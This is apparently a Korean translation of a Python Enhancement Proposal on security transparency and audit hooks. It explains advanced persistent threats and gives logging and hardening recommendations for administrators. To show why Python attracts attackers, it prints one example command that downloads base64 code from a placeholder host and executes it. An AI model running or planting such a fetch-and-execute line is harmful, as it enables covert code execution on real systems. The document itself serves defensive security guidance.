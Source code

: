 ### PEP 578과의 관계

이 PEP는 원래 게시된 이후 두 부분으로 나뉘었습니다. Python 다음 버전에 추가될 감사 API에 대한 내용은 **PEP 578**을 참조하십시오. 이 문서는 이제 Python을 보안 또는 감사 환경에 통합하려는 사람들에게 지침을 제공하는 정보 제공용 PEP입니다.

### 개요 (Abstract)

이 PEP는 보안 투명성(security transparency)의 개념과 이것이 Python 런타임에 어떻게 적용되는지를 설명합니다. 런타임이 수행하는 작업에 대한 가시성은 Python을 보안 및/또는 모니터링 환경에 통합하는 데 매우 중요합니다.

PEP 578에 설명된 감사 훅(audit hooks)은 Python 오용을 탐지, 식별 및 분석하는 데 필수적인 구성 요소입니다. 이러한 훅은 시스템 또는 네트워크 모니터링 책임자에게 필수적인 컨텍스트를 제공하여 공격자가 숨을 수 없도록 충분한 투명성을 제공합니다.

### 배경 (Background)

소프트웨어 취약점은 일반적으로 원격 또는 권한 상승 코드 실행을 가능하게 하는 버그로 간주되지만, 현대에는 고급 지속 위협(Advanced Persistent Threats, APT)을 가능하게 하는 취약점이 더 위험합니다. APT는 공격자가 네트워크에 침투하여 시스템에 소프트웨어를 설치하고 시간이 지남에 따라 데이터 또는 정보를 추출할 때 발생합니다. 대부분의 APT는 존재를 숨기고 탐지를 피하려고 시도하며, 전통적인 취약점, 사회 공학, 피싱, 철저한 네트워크 분석 및 잘못 구성된 환경에 대한 이해를 조합하여 작동합니다.

시스템 관리자는 대규모 네트워크에서 분산 로그를 통해 머신의 활동을 이해하지만, 로그는 종종 오류 조건만 표시하도록 필터링됩니다. 탐지를 피하려는 APT는 오류나 비정상적인 이벤트를 거의 생성하지 않으므로, 정상적인 운영 로그를 검토하는 데는 많은 노력이 필요합니다. 공격자가 선호하는 도구는 대상 머신에 이미 설치되어 있는 도구인데, 이는 이러한 도구의 로그 메시지가 정상적인 사용에서 종종 예상되고 무시되기 때문입니다.

Python은 서버 및 개발자 머신에 널리 보급되어 있고, 데이터로 제공되는 임의 코드를 실행할 수 있으며, 내부 감사 기능이 없기 때문에 공격자에게 특히 흥미로운 도구입니다. 이는 공격자가 단일 명령으로 악성 코드를 다운로드, 해독 및 실행할 수 있게 합니다.

```python
python -c "import urllib.request, base64; exec(base64.b64decode( urllib.request.urlopen('http://my-exploit/py.b64') ).decode())"
```
이 명령은 대부분의 안티-맬웨어 스캐너와 파일 접근 제어 목록, 승인된 애플리케이션 목록, 자동 감사 또는 로깅과 같은 보호 기능을 우회할 수 있습니다.

보안 커뮤니티는 공격을 완전히 방지하는 것은 불가능하며, 공격이 성공한 후에야 탐지할 수 있다고 가정하는 "assume breach" (침해 가정) 사고방식을 채택하고 있습니다. 이 시나리오에서 중요한 작업은 악성 코드의 탐지, 추적 및 제거입니다. 이를 위해 Python에서 요구되는 주요 기능은 **보안 투명성**입니다. 즉, Python 런타임이 비정상적이거나 악의적인 사용을 나타낼 수 있는 어떤 작업을 수행하는지 볼 수 있는 능력입니다.

중요도가 높아지는 순서대로 목표를 요약하면 다음과 같습니다.
*   악의적인 사용 방지는 가치 있습니다.
*   악의적인 사용 탐지는 중요합니다.
*   탐지 우회 시도 탐지는 매우 중요합니다.

PowerShell은 이러한 문제를 해결하기 위해 투명성과 방지라는 유사한 목표를 향해 강화된 스크립팅 엔진의 한 예입니다. 시스템 관리자는 비정상적이거나 악의적인 사용을 탐지하기 위해 Python의 특정 사용을 감사해야 하며, PEP 578을 통해 Python 런타임은 이를 제공할 수 있습니다.

Windows에서는 스크립트 블록 로깅, DeviceGuard, AMSI, 영구 영역 식별자, 이벤트 추적과 같은 특정 기능들이 PEP 578에서 추가된 훅을 통해 통합될 수 있습니다. Linux에서는 gnupg, sd_journal, OpenBSM, syslog, auditd, SELinux labels 등이 통합될 수 있습니다. macOS에서는 OpenBSM 및 syslog 기능이 통합될 수 있습니다.

진정한 보안 투명성은 Python 단독으로는 완전히 달성할 수 없습니다. 런타임은 많은 이벤트를 감사할 수 있지만, 로그가 검토되고 분석되지 않으면 가치가 없습니다.

### 요약 권장 사항 (Summary Recommendations)

*   **대체 진입점 사용:** 시스템 관리자는 공격 노출 영역(surface area)을 줄이고 감사 훅을 안전하게 활성화하기 위해 (기본 `python.exe` 또는 `pythonX.Y` 외에) 대체 진입점을 제공하고 사용해야 합니다.
*   **Python 설치 보호:** 시스템 관리자는 파일 권한, 접근 제어 목록(ACL) 및 서명 유효성 검사(signature validation)와 같이 운영 체제에서 제공하는 모든 조치를 사용하여 Python 설치 파일의 수정을 방지해야 합니다.
*   **로그 중앙 집중화:** 시스템 관리자는 모든 것을 로깅하고 가능한 한 빨리 로그를 중앙 위치로 수집해야 합니다.
*   **탐지 우선순위:** 시스템 관리자는 오용 **방지(prevention)**보다 오용 **탐지(detection)**에 우선순위를 두어야 합니다.
